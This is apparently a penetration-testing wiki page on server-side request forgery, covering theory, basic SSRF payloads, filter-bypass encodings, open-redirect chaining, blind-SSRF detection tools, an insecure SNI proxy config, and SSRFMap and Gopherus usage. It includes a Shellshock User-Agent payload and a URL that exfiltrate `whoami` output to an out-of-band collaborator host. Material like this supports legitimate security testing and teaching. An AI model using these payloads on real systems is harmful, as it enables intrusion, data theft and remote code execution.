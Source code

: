 # SSRF (Server-Side Request Forgery)

## Theory

A Server-Side Request Forgery (a.k.a. SSRF) is a web vulnerability allowing attackers to make the server-side application do certain requests. This vulnerability can lead to unauthorized actions, Sensitive Information Disclosure and even RCE (Remote Code Execution).

{% hint style="info" %}
SSRF is to [file inclusion](file-inclusion/) since both vulnerabilities can be exploited to access external or internal content. The difference resides in the fact that file inclusion vulnerabilities rely on code inclusion functions (e.g. `include()` in PHP) while SSRF ones on functions that only handle data (e.g. `file_get_contents()`, `fopen()`, `fread()`, `fsockopen()`, `curl_exec()` in PHP), meaning file inclusion vulnerabilities will usually lead to RCE much more easily that SSRF ones.
{% endhint %}

## Practice

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.

### Bypassing filters

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

{% tabs %}
{% tab title="Blacklist input filters" %}
Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :

<pre><code>http://127.1
http://0
http:@0/
http://0.0.0.0:80
http://[::]:80/
http://[0000::1]:80/
<strong>http://2130706433 # Decimal version of localhost
</strong>http://0x7f000001/ # Hexadecimal version of localhost
</code></pre>

* Obfuscating string using URL encoded, even double URL encoded sometimes.
* Registered your own domain name that resolved the `localhost` IP address.

{% hint style="info" %}
The following "URL Format Bypass" cheatsheet gives lots of examples to bypass filters: [https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass.md)
{% endhint %}
{% endtab %}

{% tab title="Whitelist input filters" %}
### Pattern validation

In this context, a whitelist-based input filter can be used to restrict the types of URLs that a user can submit. For example, the filter might only allow URLs that match the whitelist pattern. In this situation, you can bypass the filter using various techniques :

* Using the `@` character in a URL like this :
  * `https://{url}@{target_host}`
* Using the `#` character to indicate that the first field is interpreted as a URL fragment like this :
  * `https://{target_host}#{url}`
* Using the DNS name to place required input into a fully-qualified DNS like this :
  * `https://{url}.{target_host}`
* URL encode, even double URL encoding this special character to bypass the filter
* Use a combination of all this technique like using the `#@` characters.

### [ORED (Open Redirect)](ssrf.md#ored-open-redirect-combination) combination

In the case the argument is strictly validated and doesn't allow for bypasses relying on pattern validation, if one of the whitelisted app's pages is vulnerable to an [ORED (Open Direct)](ssrf.md#ored-open-redirect-combination), it could be used to make the SSRF possible anyway.

The server would request the ORED-vulnerable page through the SSRF vulnerability, and it would then be redirected to the actual target page, thanks to the lesser-filtered Open Redirect.

<figure><img src="../../.gitbook/assets/SSRF.png" alt=""><figcaption></figcaption></figure>
{% endtab %}
{% endtabs %}

### Blind SSRF vulnerabilities <a href="#blind-ssrf-vulnerabilities" id="blind-ssrf-vulnerabilities"></a>

A blind SSRF vulnerability is a type of vulnerability that arises when an application makes a request to an external resource using user-supplied input, but the application does not return the response to the user.

It can be achieved to gain full RCE (Remote Command Execution).

In order to identify a potential SSRF vulnerability and exploit, multiple tools can be used to pingback the request and see the response.

* [Burp Suite Collaborator](https://portswigger.net/burp/documentation/collaborator)
* [pingb](http://pingb.in/)
* [canarytokens](https://canarytokens.org/generate)
* [interactsh](https://github.com/projectdiscovery/interactsh)
* [webhook](http://webhook.site/)
* [ssrf-sheriff](https://github.com/teknogeek/ssrf-sheriff)
* An extension to add to Burp Suite, called "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)", that adds non-invasive payloads into outgoing HTTP requests' headers in order to detect SSRF vulnerabilities if and when the target pingbacks to the collaborator endpoint.

{% hint style="info" %}
An effective way to abuse blind SSRF is to combine it with a shellshock vulnerability ([CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)). See the following resource for more details: [PortSwigger Lab: Blind SSRF with shellshock](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation). The "[collaborator everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968)" extension can be used to detect and abuse this as well.
{% endhint %}

### SSRF via SNI data from certificate

The configuration below is insecure and allows to connect to an arbitrary backend, since the SNI field value is used directly as the address of the backend.

```json
stream {
    server {
        listen 443; 
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;       
        ssl_preread on;
    }
}
```

With this insecure configuration, it is possible to **exploit the SSRF vulnerability simply by specifying the desired IP or domain name in the SNI field**. For example, the following command would force the server to connect to `internal.host.com`:

```bash
openssl s_client -connecttarget.com:443 -servername "internal.host.com" -crlfbash
```

> More information about this on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#ssrf-via-sni-data-from-certificate).

### SSRF with Command Injection

It is possible to use SSRF that return the command output inside an out of band connection as follows.

```
url=http://zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com?`whoami`
User-Agent: () { :; }; /bin/nslookup $(whoami).zad8nb8tb7dst2yohw0br7rr6ich07ow.oastify.com
```

[SSRFMap](https://github.com/swisskyrepo/SSRFmap) (Python) is a tool used to ease the exploitation of SSRFs. [Gopherus](https://github.com/tarunkant/Gopherus) (Python) can be used as well to gain RCE (Remote Code Execution) by generating Gopher payloads.

<pre class="language-bash"><code class="lang-bash"># using SSRFMap
python3 ssrfmap.py -r data/request.txt -p url -m readfiles

<strong># using Gopherus
</strong>gopherus --exploit mysql # It only asks username of the MySQL user
	 --exploit postgresql # It only asks username of the Postgres user and database name
	 --exploit fastcgi # It only asks for a file which must be present in the victim system(preferable .php file)
	 --exploit redis # Get a reverse or php shell to overwrite the file in the system
	 --exploit zabbix # If port 10050 is open and EnableRemoteCommands = 1, then it is possible to run shell command
	 --exploit pymemcache # Python deserialization issue that lead to RCE
	 --exploit rbmemcache # Ruby deserialization issue that lead to RCE
	 --exploit phpmemcache # PHP deserialization issue that lead to RCE
	 --exploit dmpmemcache # Dump memory cache content
	 --exploit smtp # If port 25 is open and we can access it then, we can send message to anyone as victim user by generating email payload
</code></pre>

## Resources

{% embed url="https://portswigger.net/web-security/ssrf" %}

{% embed url="https://portswigger.net/web-security/ssrf/blind" %}

{% embed url="https://owasp.org/www-community/attacks/Server_Side_Request_Forgery" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery" %}
